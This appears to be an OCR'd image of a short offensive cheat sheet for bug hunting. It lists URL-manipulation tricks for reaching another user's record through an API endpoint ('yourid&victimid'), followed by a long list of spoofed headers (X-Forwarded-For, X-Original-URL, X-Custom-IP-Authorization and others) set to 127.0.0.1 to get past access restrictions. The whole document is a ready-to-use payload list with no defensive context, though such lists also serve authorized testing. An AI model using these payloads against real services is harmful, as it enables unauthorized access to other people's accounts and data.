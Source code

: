 # tricks on /api/v1/user/id
/api/v1/user/id.json\
/api/v1/user/id?\
/api/v1/user/id/\
/api/v2/user/id\
/api/v1/user/id&accountdetail\
/api/v1/user/yourid&victimid\
X-Original-URL: /api/v1/user/id/\

# headers
Base-Url: 127.0.0.1\
Client-IP: 127.0.0.1\
Http-Url: 127.0.0.1\
Proxy-Host: 127.0.0.1\
Proxy-Url: 127.0.0.1\
Real-Ip: 127.0.0.1\
Redirect: 127.0.0.1\
Referer: 127.0.0.1\
Referrer: 127.0.0.1\
Refferer: 127.0.0.1\
Request-Uri: 127.0.0.1\
Uri: 127.0.0.1\
Url: 127.0.0.1\
X-Client-IP: 127.0.0.1\
X-Custom-IP-Authorization: 127.0.0.1\
X-Forward-For: 127.0.0.1\
X-Forwarded-By: 127.0.0.1\
X-Forwarded-For-Original: 127.0.0.1\
X-Forwarded-For: 127.0.0.1\
X-Forwarded-Host: 127.0.0.1\
X-Forwarded-Port: 443\
X-Forwarded-Port: 4443\
X-Forwarded-Port: 80\
X-Forwarded-Port: 8080\
X-Forwarded-Port: 8443\
X-Forwarded-Scheme: http\
X-Forwarded-Scheme: https\
X-Forwarded-Server: 127.0.0.1\
X-Forwarded: 127.0.0.1\
X-Forwarder-For: 127.0.0.1\
X-Host: 127.0.0.1\
X-Http-Destinationurl: 127.0.0.1\
X-Http-Host-Override: 127.0.0.1\
X-Original-Remote-Addr: 127.0.0.1\
X-Original-Url: 127.0.0.1\
X-Originating-IP: 127.0.0.1\
X-Proxy-Url: 127.0.0.1\
X-Real-Ip: 127.0.0.1\
X-Remote-Addr: 127.0.0.1\
X-Remote-IP: 127.0.0.1\
X-Rewrite-Url: 127.0.0.1\
X-True-IP: 127.0.0.1\
